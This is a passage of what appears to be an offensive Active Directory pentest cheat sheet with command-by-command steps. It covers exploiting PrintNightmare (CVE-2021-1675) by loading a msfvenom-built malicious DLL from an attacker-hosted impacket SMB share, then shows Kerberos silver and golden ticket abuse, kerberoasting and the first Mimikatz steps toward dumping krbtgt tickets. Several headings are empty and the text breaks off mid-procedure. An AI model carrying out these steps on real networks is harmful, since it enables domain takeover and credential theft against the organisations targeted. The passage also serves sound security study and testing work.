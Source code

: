 
First we see if spooler service is running or not 

1. Run following command in attacker machine and see if we get similiar results as shown 

rpcdump.py @TargetIp| egrep 'MS-RPRN|MS-PAR'

Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Protocol: [MS-RPRN]: Print System Remote Protocol

2. Now we need a malicuius dll containing our code and a smb server running to host it

> we create a dll from msffvenom or any other way and run impacket smb server to host it

3. Now we simply run the exploit remotely as shown in the github

> ./CVE-2021-1675.py domain.name/domain_user:passsword@TargetIP '\\OurIPAddress\smb\file.dll'

## ElevatedInstaller exploit (cve-2021-41379)

## PrintSpooler

##Zero logon



# Golden and silver tickets

A silver ticket can sometimes be better used in engagements rather than a golden ticket because it is a little more discreet. If stealth and staying undetected matter then a silver ticket is probably a better option than a golden ticket however the approach to creating one is the exact same. The key difference between the two tickets is that a silver ticket is limited to the service that is targeted whereas a golden ticket has access to any Kerberos service.

A specific use scenario for a silver ticket would be that you want to access the domain's SQL server however your current compromised user does not have access to that server. You can find an accessible service account to get a foothold with by kerberoasting that service, you can then dump the service hash and then impersonate their TGT in order to request a service ticket for the SQL service from the KDC allowing you access to the domain's SQL server.

-Note : klist shows the available tickets in the context of current user.Our Main goal is krbtgt so if our user doesnt show krbtgt ticket,try switching to other users sessions because the ticket contexts keeps switching dynamically.

the ticket which we impersonate can be that of a  domain admin or the kerberos service itself.

- Using Mimikatz

This attack requires atleast loacal administrator priveleges 

1. Run mimikatz to get in its shell

> mimikatz.exe

2. check our priveleges that if we can perfrom this attack or not

> privilege::debug

3. Now we will dump all tickets having accss to krbtgt
